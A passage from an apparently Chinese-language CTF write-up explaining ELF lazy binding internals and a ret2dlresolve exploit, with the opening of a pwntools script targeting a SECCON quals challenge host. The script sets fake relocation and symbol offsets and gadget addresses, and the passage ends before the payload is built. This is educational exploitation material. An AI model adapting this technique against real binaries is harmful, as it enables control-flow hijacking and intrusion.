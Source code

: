 ```c
// type         == 7 --> R_386_JUMP_SLOT
```

而 symbol index 對應到的是 `SYMTAB (0x804820c)`，一個 entry 大小是 0x10，結構為：

```c
typedef struct
{
  Elf32_Word    st_name;   /* Symbol name (string tbl index) */
  Elf32_Addr    st_value;  /* Symbol value */
  Elf32_Word    st_size;   /* Symbol size */
  unsigned char st_info;   /* Symbol type and binding */
  unsigned char st_other;  /* Symbol visibility under glibc>=2.2 */
  Elf32_Section st_shndx;  /* Section index */
} Elf32_Sym;
```

lazy binding 時，會呼叫 `_dl_runtime_resolve(link_map, rel_offset)`，而 rel_offset 即是 function 對應到的 `Elf32_Rel` entry index：

```c
// JMPREL == JMPREL (0x80482d8) 
Elf32_Rel * rel_entry = JMPREL + rel_offset;
```

而後 `_dl_runtime_resolve` 會從 `Elf32_Rel` 找 `r_offset` 取得 GOT 位址、從 `r_info` 找到對應 function 的 `Elf32_Sym`：

```c
// ELF32_R_SYM == SYMTAB (0x804820c)
Elf32_Sym *sym_entry = SYMTAB[ELF32_R_SYM(rel_entry->r_info)];
```

取得 sym_entry 後，會拿 symbol name 去 library 找：

```c
// STRTAB == STRTAB (0x804825c)
char *sym_name = STRTAB + sym_entry->st_name;
```

最後填入 `&Elf32_Rel->r_offset`，完成 lazy binding。



而過程中使用到的 segment 皆是 **r--**，因此要構造假的 entry 需要在其他地方構造，不能直接蓋寫，所以需要先用 `gets()` 將相關的 data 寫 .data 段，exploit 如下：

```python
#!/usr/bin/python3

from pwn import *
import sys

context.arch = 'i386'
context.terminal = ['tmux', 'splitw', '-h']

if len(sys.argv) > 1:
    r = remote('hiyoko.quals.seccon.jp', 9001)
else:
    r = process('./chall')

base = 0x804c050
RELent_base = base - 0x80482d8
SYMent_base_add_0xc = (base + 0xc - 0x804820c) // 16
STR_base_add_0x1c = (base + 0x1c - 0x804825c)
sh = base + 0x24
gets_plt = 0x8049040
gets_got = 0x804c00c
pop_ebx_ret = 0x8049022
push_linkmap = 0x8049030
resolve_gets = 0x8049046
```